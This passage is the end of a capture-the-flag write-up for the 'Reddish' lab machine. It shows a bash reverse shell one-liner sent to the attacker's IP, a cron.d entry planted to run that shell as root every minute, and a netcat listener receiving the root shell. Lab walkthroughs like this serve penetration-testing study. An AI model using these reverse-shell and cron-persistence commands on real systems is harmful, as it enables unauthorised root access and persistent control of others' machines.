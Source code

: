 ```bash
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
root@backup:/mnt# cd root
cd root
root@backup:/mnt/root# ls
ls
root.txt
```

To get shell as root, we can use cron again. I just did the same as what I did before. 

```bash
root@backup:/mnt/tmp# echo 'bash -c "bash -i >& /dev/tcp/10.10.14.30/1010 0>&1"' > root.sh         
root@backup:/mnt/tmp# cd /mnt/etc/cron.d
cd /mnt/etc/cron.d
root@backup:/mnt/etc/cron.d# echo '* * * * * root sh /tmp/root.sh' > root
echo '* * * * * root sh /tmp/root.sh' > root
root@backup:/mnt/etc/cron.d# cat root
cat root
* * * * * root sh /tmp/root.sh
```

Got Shell as root@reddish

```bash
root@kali:~/boxes/reddish# nc -lnvp 1010
listening on [any] 1010 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.94] 42474
bash: cannot set terminal process group (29665): Inappropriate ioctl for device
bash: no job control in this shell
root@reddish:~# whoami;hostname
whoami;hostname
root
reddish
root@reddish:~#
```

We Own the Box!